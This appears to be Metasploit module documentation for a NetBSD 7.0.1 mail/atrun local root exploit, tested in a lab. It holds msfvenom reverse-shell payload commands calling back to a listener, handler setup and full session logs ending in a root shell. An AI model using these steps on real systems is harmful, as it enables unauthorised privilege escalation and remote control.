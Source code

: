 ## Vulnerable Application

  NetBSD 7.0.1 is available from the [official](http://cdn.netbsd.org/pub/NetBSD/NetBSD-7.0.1/images/NetBSD-7.0.1-amd64.iso) site, or on an [unofficial git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/NetBSD-7.0.1-amd64.iso) 

## Issues
Getting an initial shell that can write files correctly was difficult.  The best I found was reverse_openssl.

Payloads that didn't work:
* cmd/unix/reverse - connected back, but couldn't write file.
```
[*] Started reverse TCP double handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/zrWqhXpL
[*] Max line length is 131073
[*] /usr/bin/printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] /usr/bin/printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] perl -e 'print("\0\377\376\101\102\103\104\177\45\45\15\12")' Failed: "perl: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] gawk 'BEGIN {ORS="";print "\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a"}' </dev/null Failed: "gawk: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo '00fffe414243447f25250d0a'|xxd -p -r Failed: "xxd: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo -ne '\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a' Failed: "-ne \\x00\\xff\\xfe\\x41\\x42\\x43\\x44\\x7f\\x25\\x25\\x0d\\x0a\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[-] Exploit failed: RuntimeError Can't find command on the victim for writing binary data
[*] Exploit completed, but no session was created.
```
* cmd/unix/reverse_awk - `awk: syntax error at source line 1`
* cmd/unix/reverse_bash - `./bsd.payload: 1: Syntax error: Bad fd number`
* cmd/unix/reverse_bash_telnet_ssl - `$ telnet: unknown option -- z`
* cmd/unix/reverse_ssl_double_telnet - `$ telnet: unknown option -- z`
* cmd/unix/reverse_lua - `lua: (command line):1: module 'socket' not found`
* netcat, node, perl, php, python, php, ruby, zsh - all not installed by default
* bsd/* didn't seem to work either, maybe its for freebsd?

Payloads that did work:
* cmd/unix/reverse_openssl

## Verification Steps

  1. Start msfconsole
  2. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  3. Do: `use exploit/unix/local/netbsd_mail_local`
  4. Do: `set payload cmd/unix/reverse_openssl`
  5. Do: `set lhost 172.16.152.1`
  6. Do: `set verbose true`
  7. Do: `set session 1`
  8. Do: `exploit`
  9. You should get a *root* shell.

## Options

  **ATRUNPATH**
  File location of atrun, defaults to `/usr/libexec/atrun`
  
  **MAILDIR**
  Location of mail folder, defaults to `/var/mail`
  
  **WritableDir**
  Location of a writable directory for our payload, defaults to `/tmp`
  
  **ListenerTimeout**
  Since this exploit utilized a cron which has a 10min timer, the listener timeout needs to be 10min + padding.  Defaults to `603` seconds (10min, 3sec)

## Scenarios

  Here is a run against a virgin install of `NetBSD  7.0.1 NetBSD 7.0.1 (GENERIC.201605221355Z) amd64` (from the unofficial link at the top)
  
  In this example, I got lucky and only had to wait ~1min for the cron to hit, which is every 10min by default

  1. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  2. Run the exploit
```
msf exploit(netbsd_mail_local) > set payload cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
msf exploit(netbsd_mail_local) > set lhost 172.16.152.1
lhost => 172.16.152.1
msf exploit(netbsd_mail_local) > set verbose true
verbose => true
msf exploit(netbsd_mail_local) > set session 1
session => 1
msf exploit(netbsd_mail_local) > exploit
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/pjDkvmGg
[*] Max line length is 131073
[*] Writing 176 bytes in 1 chunks of 618 bytes (octal-encoded), using printf
[*] Writing exploit to /tmp/GHIKGOWX.c
[*] Max line length is 131073
[*] Writing 4898 bytes in 1 chunks of 17162 bytes (octal-encoded), using printf
[*] Compiling /tmp/GHIKGOWX.c via gcc
[*] Executing at 2016-08-25 19:59:04 -0400.  May take up to 10min for callback
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo X6C4UIDx4zmwM0DJ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "X6C4UIDx4zmwM0DJ\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (172.16.152.1:4444 -> 172.16.152.128:65532) at 2016-08-25 20:00:02 -0400
[*] 2016-08-25 20:00:02 -0400
[*] Remember to run: chown root:wheel /usr/libexec/atrun
[+] Deleted /tmp/pjDkvmGg
[!] This exploit may require manual cleanup of '/tmp/pjDkvmGg' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX.out' on the target
1633029467
TkBWZEPqsRvYvmwNaTcjImhcSzZHOAtY
true
JUqfyioWthnpvyxRJAZosSGQjnLHqPUB
sHXbQbHqFIbnZGoFWlZoppGprWyKwFCr
nDpSrEmQhDuVSxIpILWCOABbMOIAWUTx
whoami
root
```